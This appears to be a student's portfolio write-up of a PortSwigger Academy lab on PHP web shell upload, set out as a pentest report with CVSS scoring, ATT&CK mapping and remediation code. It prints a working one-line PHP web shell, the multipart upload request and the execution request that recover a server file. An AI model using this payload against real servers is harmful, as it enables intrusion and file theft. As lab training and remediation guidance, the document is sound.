


# File Upload — Remote Code Execution via Web Shell

> Unrestricted file upload vulnerability allowing server-side PHP execution and arbitrary file read on a PortSwigger Web Security Academy lab environment.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings / Results](#findings--results)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

Unrestricted file upload vulnerabilities allow an attacker to upload arbitrary files to a server without validation. When the server executes uploaded files, this condition escalates to Remote Code Execution (RCE) — one of the most severe outcomes in web application security.

This lab exercise demonstrates a file upload endpoint that performs no MIME type, extension, or content validation. A PHP web shell was uploaded in place of a valid image file, then executed via a direct HTTP GET request to the stored file path, resulting in arbitrary server-side code execution and exfiltration of a sensitive file.

> **Key Outcome:** Achieved unauthenticated arbitrary file read via unrestricted PHP web shell upload, recovering the target secret from `/home/carlos/secret`.

---

## Scope & Objectives

### Objectives

- Identify and exploit an unrestricted file upload vulnerability in the avatar upload function
- Upload a PHP web shell to the server without triggering any upload restrictions
- Execute the web shell via a direct HTTP request to retrieve the contents of `/home/carlos/secret`
- Document the full attack chain with reproducible evidence

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| PortSwigger Lab Instance | Web Security Academy — "Remote code execution via web shell upload" | Web Application |
| `/my-account` avatar upload endpoint | Avatar image upload function with no file validation | Feature |
| `/files/avatars/` | Server directory where uploaded files are stored and served | File System Path |

### Out of Scope

- Any PortSwigger infrastructure outside the isolated lab instance
- Network-layer attacks
- Authentication bypass — valid credentials (`wiener:peter`) were provided

### Engagement Type

> **Type:** Gray-box (valid user credentials provided; application source not disclosed)
> **Authorization:** Sanctioned PortSwigger Web Security Academy lab environment
> **Duration:** Single session

---

## Methodology

The assessment followed the **OWASP Testing Guide v4.2** (WSTG-BUSL-08: Test Upload of Malicious Files) and **PTES** technical guidelines for web application testing.

### Phase 1 — Reconnaissance

Authenticated to the application using the provided credentials. Navigated to the account page and identified the avatar image upload function. Proxied all traffic through Burp Suite to observe request structure.

### Phase 2 — Upload Analysis

Uploaded a valid image file to capture the upload request in Burp Suite HTTP history. Identified the server's storage path for uploaded files via the subsequent GET request to `/files/avatars/<filename>`. No `Content-Type` enforcement, extension allowlist, or file content inspection was observed in any server response.

### Phase 3 — Exploitation

Crafted a minimal PHP web shell (`exploit.php`) invoking `file_get_contents()` to read an arbitrary server-side file. Submitted the shell through the avatar upload function using Burp Suite Repeater.

### Phase 4 — Execution and Exfiltration

Modified the previously captured GET request in Burp Repeater to target `/files/avatars/exploit.php`. The server executed the PHP script and returned the file contents of `/home/carlos/secret` in the HTTP response body.

---

## Findings / Results

### VULN-001 — Unrestricted File Upload Enabling Remote Code Execution

| Field | Detail |
|-------|--------|
| **ID** | VULN-001 |
| **Severity** | [CRITICAL] |
| **CVSS v3.1 Score** | 9.8 |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **CWE** | CWE-434: Unrestricted Upload of File with Dangerous Type |
| **OWASP Category** | A04:2021 — Insecure Design |
| **MITRE ATT&CK** | T1505.003 — Server Software Component: Web Shell |
| **Affected Component** | `/my-account` avatar upload endpoint |

#### Description

The avatar upload function accepts and stores any file type submitted in a multipart POST request without performing validation on the file extension, `Content-Type` header, or file magic bytes. Files are stored in a publicly accessible directory (`/files/avatars/`) and served directly by the web server with full MIME-type execution capability.

#### Technical Impact

A PHP file uploaded to the avatars directory is executed server-side when requested via HTTP GET. This permits execution of arbitrary PHP code under the web server's process context, enabling file system read, command execution, and potential lateral movement within the hosting environment.

#### Business Impact

An authenticated attacker with standard user privileges can achieve server-side code execution, read sensitive files across the file system, and potentially escalate to full server compromise. In a production environment this would result in data breach, regulatory exposure, and complete loss of server integrity.

#### Proof of Concept

Web shell payload uploaded as avatar file:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Upload request (abbreviated):

```http
POST /my-account/avatar HTTP/2
Host: <lab-instance>.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary--
```

Execution request via Burp Repeater:

```http
GET /files/avatars/exploit.php HTTP/2
Host: <lab-instance>.web-security-academy.net
Cookie: session=<session-token>
```

Server response (response body):

```
yXPaWJiiMXCQVgN8rAb0rsXoD86WRBnO
```

#### Reproduction Steps

1. Log in with credentials `wiener:peter` while proxying through Burp Suite.
2. Navigate to `/my-account` and upload any image file as avatar.
3. In Burp HTTP history, locate the GET request to `/files/avatars/<image>`. Send to Repeater.
4. Create `exploit.php` containing: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
5. Use the avatar upload form to upload `exploit.php` — confirm successful upload in server response.
6. In Burp Repeater, modify the path to `/files/avatars/exploit.php` and send.
7. Observe the secret value returned in the response body.

#### Retest Criteria

- Upload of a `.php` file must be rejected with HTTP 400 or equivalent error.
- Upload endpoint must enforce an allowlist of permitted MIME types and extensions.
- Uploaded files must not be executable by the web server process.

---

## Risk Summary

| ID | Title | Severity | CVSS | CWE | OWASP |
|----|-------|----------|------|-----|-------|
| VULN-001 | Unrestricted File Upload — PHP Web Shell RCE | [CRITICAL] | 9.8 | CWE-434 | A04:2021 |

---

## Attack Chain

```
[Authenticated User Session]
        |
        v
[POST /my-account/avatar]
  -- Upload exploit.php as avatar (no validation performed)
        |
        v
[Server stores exploit.php in /files/avatars/]
  -- File stored with original name and extension intact
        |
        v
[GET /files/avatars/exploit.php]
  -- Server executes PHP file and returns output
        |
        v
[PHP: file_get_contents('/home/carlos/secret')]
  -- Arbitrary server-side file read executed
        |
        v
[Response body: secret value returned to attacker]
```

**MITRE ATT&CK Mapping:**

| Phase | Technique | ID |
|-------|-----------|----|
| Initial Access | Valid Accounts | T1078 |
| Execution | Server Software Component: Web Shell | T1505.003 |
| Collection | Data from Local System | T1005 |
| Exfiltration | Exfiltration Over C2 Channel (HTTP) | T1041 |

---

## Tools & Environment

| Tool | Version | Purpose |
|------|---------|---------|
| Burp Suite Community Edition | 2026.3.2 | HTTP interception, request replay, history analysis |
| Chromium | 146 | Lab browser — traffic proxied through Burp |
| Kali Linux | — | Attack platform |
| PortSwigger Web Security Academy | — | Authorized lab environment |

**Web Shell Payload:** Minimal single-line PHP using `file_get_contents()` — no external dependencies.

---

## Evidence

### Figure 1 — Web Shell Execution in Burp Repeater


*Caption: GET request to `/files/avatars/exploit.php` returning the exfiltrated secret value (`yXPaWJiiMXCQVgN8rAb0rsXoD86WRBnO`) in the HTTP response body, confirming server-side PHP execution.*

### Figure 2 — Lab Solved Confirmation


*Caption: PortSwigger lab banner confirming successful completion of "Remote code execution via web shell upload" after submitting the recovered secret.*

---

## Remediation

### REM-001 — Implement Server-Side File Upload Validation [IMMEDIATE]

**Priority:** `[IMMEDIATE]` — fix within 24–48 hours in any production deployment.

**Recommended Controls (defence-in-depth):**

1. **Extension allowlist** — Permit only known-safe extensions (`jpg`, `jpeg`, `png`, `gif`, `webp`). Reject all others with HTTP 400.

```python
ALLOWED_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'webp'}

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```

2. **MIME type validation** — Read the file's magic bytes server-side. Do not trust the `Content-Type` header supplied by the client.

```python
import magic

def validate_mime(file_stream):
    header = file_stream.read(2048)
    file_stream.seek(0)
    mime = magic.from_buffer(header, mime=True)
    return mime in {'image/jpeg', 'image/png', 'image/gif', 'image/webp'}
```

3. **Rename uploaded files** — Generate a UUID-based filename on the server. Never preserve the attacker-supplied filename.

```python
import uuid, os

def secure_filename(original_ext):
    return f"{uuid.uuid4().hex}.{original_ext}"
```

4. **Store uploads outside the web root** — Files must not be served with execution capability. Serve them through an application handler that sets a safe `Content-Type` and streams the file as a download or image.

5. **Disable PHP execution in the upload directory** — Apply a server-level directive:

```apache
# Apache .htaccess for upload directory
php_flag engine off
Options -ExecCGI
AddHandler cgi-script .php .php3 .phtml .pl .py .jsp .asp .htm .shtml .sh .cgi
```

---

## Lessons Learned

| Skill | Observation |
|-------|-------------|
| File Upload Exploitation (CWE-434) | No single validation control is sufficient. Extension checks can be bypassed via MIME spoofing; MIME checks can be bypassed via polyglot files. Defence-in-depth — rename + MIME check + no-execute storage — is the minimum viable control set. |
| Burp Suite Repeater Workflow | Capturing the avatar GET request and replaying it with a modified path is a reliable method for testing execution of uploaded files without additional tooling. |
| MITRE ATT&CK Mapping (T1505.003) | Web shell deployment maps directly to T1505.003 in ATT&CK. Understanding the TTP framing assists in correlating lab exercises to real-world threat actor behaviour. |
| Engagement Scope Discipline | Gray-box context (credentials provided, source unavailable) shaped the testing approach — focusing on observable behaviour rather than source code review. Applying scope constraints even in lab settings builds consistent professional discipline. |

**Tags:** `file-upload` `rce` `web-shell` `php` `CWE-434` `OWASP-A04` `T1505.003` `burp-suite` `portswigger`

---

## References

- [PortSwigger Web Security Academy — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP Testing Guide v4.2 — WSTG-BUSL-08: Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [MITRE ATT&CK — T1505.003: Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/)
- [CVSS v3.1 Specification](https://www.first.org/cvss/v3.1/specification-document)

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated
> lab environments or sanctioned CTF platforms. No unauthorized systems were accessed.
> This project is intended for educational and portfolio purposes only.
